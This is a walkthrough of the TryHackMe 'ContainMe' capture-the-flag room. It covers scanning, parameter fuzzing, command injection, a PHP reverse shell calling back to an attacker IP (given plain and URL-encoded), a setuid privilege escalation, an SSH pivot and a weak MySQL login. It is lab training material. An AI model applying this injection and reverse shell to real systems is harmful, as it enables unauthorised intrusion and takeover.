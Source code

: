 # [ContainMe (TryHackMe)](https://tryhackme.com/room/containme1) 
Creator: [ITSecHack](https://tryhackme.com/p/ITSecHack)

First, let's scan this thing: 

<code>rustscan -a 10.10.163.146</code>

![PIC_RUST](https://user-images.githubusercontent.com/93183445/141817607-4bf1e9a5-bb79-4117-9c40-a9a2a173efb0.png)

After that, just to be sure, nmap follows: 

<code>nmap -sV -sC -p22,80,2222,8022 10.10.163.146</code>

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/141818585-cd585f86-3984-4137-a29e-c19ffebfc1a3.png)

Let's go after some directories (I added the "-t5" option at the end, because I got a lot of errors): 

<code>feroxbuster --url http://10.10.163.146 -w /usr/share/wordlists/dirb/common.txt -t 5</code>

![PIC_FEROX](https://user-images.githubusercontent.com/93183445/141819090-47390871-02a1-47e9-87e5-7a678fe70824.png)

The index.php shows a directory listing. Let's look at the source.

![PIC_INDEX_1](https://user-images.githubusercontent.com/93183445/141818220-71e224fc-9695-4f2c-bc05-f4efb6375f05.png)

Looks like we're going to search for the *path*.  
Let's go for it!!

Tried a few things, but didn't find anything with directory bruteforcing. Maybe it is a parameter?

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt</code>

This command spat out an incredible amount of responses. All with status 200. But they all had the same response
size. Let's filter that out and see what happens:

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt -fs 329</code>

The outcome was:  
<code>path                    [Status: 200, Size: 79, Words: 9, Lines: 11]</code>

So we found the path.
As we could view the directory listing earlier, I tried simple rce
like id, whoami and so on. Nothing seemed to work.
The only thing that gave something back, was `ls` and `pwd`
(with backticks). So just the directory listing is enabled, it seems.  
So why not try "/"? Bingo..  
I'm able to see the directory listing of "/".  
With this opportunity given, I wanted to take a look in the home directory.  
So I found mike.

![PIC_MIKE](https://user-images.githubusercontent.com/93183445/141819141-6e26bff1-fa75-4ce1-9dd8-cb29e4da2a47.png)

But mike wasn't of great use, since I couldn't read or list the content of ".ssh/".

I tried command injection. With success:

![PIC_WHOAMI](https://user-images.githubusercontent.com/93183445/141819181-05119d8a-1653-4fed-bb16-85babe95f8df.png)

It took me a few tries just to end up using php and url-encoding after I wasn't able to netcat or wget anything.  
(Should have noticed earlier, because there's a lot of php going on..)  
Again, https://www.revshells.com to the rescue :)

<code>php -r '$sock=fsockopen("MY-IP",9001);exec("sh <&3 >&3 2>&3");'</code>  
Urlencoded we get:\
<code>php%20-r%20%27%24sock%3Dfsockopen%28%22MY-IP%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27</code>

Add this to the URL in the browser after starting a listener, and we get a callback :)

![PIC_CALLBACK](https://user-images.githubusercontent.com/93183445/141820541-5533b0a1-1f27-4561-9500-106cb802d846.png)

Stabilize the shell with python3  
<code>python3 -c 'import pty;pty.spawn("/bin/bash")'</code>

Then check mike's home directory (remember the .ssh/ folder from before).  
But we get a "Permission denied". We're still www-data. But there's a binary file we are allowed to execute.  
Let's do that. Nothing happens. Except the fancy output telling us "CRYPTSHELL"..  
Again, trying to keep in mind this being a simple box, I append "mike" for the execution of the binary.  
This time, it took a few seconds to respond, so there's clearly something going on..  
Time for a search after files we are able to execute:

![PIC_CRYPT_1](https://user-images.githubusercontent.com/93183445/141819398-ead3d135-c25a-4df7-a6a2-c852c9080f5d.png)

Looks like we found something interesting..

![PIC_CRYPT_2](https://user-images.githubusercontent.com/93183445/141819430-cf877c52-1037-4575-8211-482a5e729231.png)

Trying the same again with this binary, things take an interesting turn:

![PIC_CRYPT_3](https://user-images.githubusercontent.com/93183445/141819452-30f55aaa-1464-4f43-90d6-d4c042520acd.png)

Welcome to the root-fest :).  
But no luck, the root directory is pretty much empty.  
The hostname is "host1", so maybe there's a number2?

The following just didn't work somehow..

<code>for i in {1..254} ;do (ping -c 1 172.16.20.$i | grep "bytes from" &) ;done</code>

I mean to some degree, because before it went on telling me  
that "Destination Host Unreachable", I saw that 172.16.20.6 was up.  
So I had to stop the loop and reconnect.  
Note to self: *Better use the static nmap next time..* 

Then, the first thing I tried was to connect with the id_rsa from mikes home directory to the newly
found host:

<code>ssh -i /home/mike/.ssh/id_rsa mike@172.16.20.6</code>

Aaaaand we're in :)

![PIC_HOST_2](https://user-images.githubusercontent.com/93183445/141819577-4c41309d-254b-49ec-9976-188f752d0148.png)

After searching around a bit, I got to the services. And there it was: port 3306

![PIC_NETSTAT](https://user-images.githubusercontent.com/93183445/141819600-9a0629dd-87ad-463b-bcd1-ac2c7f00ca93.png)

Taking a look at /etc/passwd revealed that there's no other user than mike. So let's get into the database.
It has to be good for something at least..

I tried to login a few times keeping the passwords rather simple. Then I succeeded with:

<code>mysql -umike -ppassword</code> 

Working my way towards the contents of the database gave me the things I needed in the end :) 

![PIC_DATABASE_2](https://user-images.githubusercontent.com/93183445/141819643-05927619-7c95-4e58-ba0a-388538059103.png)

Or at least, I thought so.. (sigh). Still no root flag. 
BUT: 

![PIC_ROOT](https://user-images.githubusercontent.com/93183445/141819661-c219d315-0011-4f31-a6bf-b00a5fff87cc.png)

**Thanks :)**

